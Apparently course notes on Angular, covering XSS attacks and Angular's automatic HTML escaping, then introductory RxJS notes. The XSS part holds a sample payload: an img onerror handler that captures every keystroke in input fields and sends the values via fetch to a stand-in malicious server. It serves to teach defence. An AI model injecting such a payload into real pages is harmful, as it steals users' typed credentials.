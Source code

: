 **Cross-Site Scripting (XSS) Attacks**

- Allows malicious users to run JS a code on other user's browsers.
- This bad JS code can be used to steal credentials, make requests, etc.
- **Angular has you covered** - it will automatically escape HTML.

```js
<img src="" onerror="
document.querySelectorAll('input').forEach((el) => {
    el.addEventListener('input', (event) => {
        fetch(`/maliciousserver?value=${event.target.value}`);
    });
});" />
```

```ts
xss = '<img src="" onerror="alert(123)" />';
```

```html
<!-- will not display alert-->
<div [innerHTML]="xss"></div>
```

***

## RxJs

**Notes on Rxjs**

- Separate library from Angular.
- Used extensively by Angular for managing data.
- We use this instead of **promises** or **async/await** for handling async stuff.
- Not strictly required! We can use **promises** and **async/await**!
- **RxJs** makes building some kinds of features really easy compared to writing normal code.
- Hard, probably the hardest thing in the world of JS.

![Event Diagram](images/rxjs-diagram-event.png "Event Diagram")

